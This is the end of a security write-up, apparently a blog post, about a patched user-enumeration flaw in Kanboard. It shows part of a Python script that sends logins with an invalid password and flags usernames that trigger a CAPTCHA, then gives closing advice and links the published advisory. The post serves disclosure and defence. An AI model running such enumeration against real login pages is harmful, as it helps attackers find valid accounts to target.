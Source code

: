 ```python
                    "username": username,
                    "password": "invalidpassword",
                    "remember_me": "1"
                }
                    resp = session.post(url, headers=headers_post, data=payload)

                # Step 3: Check for CAPTCHA
                if "Enter the text below" in resp.text.lower():
                    print(f"Found user: {username}")
        except Exception as e:
            print(f"[{username}] Error: {e}")

if __name__ == "__main__":
    main()
```

### Final Thoughts
This post again shows why it's not a good idea to trust user-supplied header values.  Additionally, it's not just error messages that can lead to user enumeration. Behaviors like CAPTCHA popups or redirects are another way attackers can probe for valid users.


Note that this has been patched and a security advisory has been published here: [GHSA-qw57-7cx6-wvp7 advisory](https://github.com/kanboard/kanboard/security/advisories/GHSA-qw57-7cx6-wvp7)
 
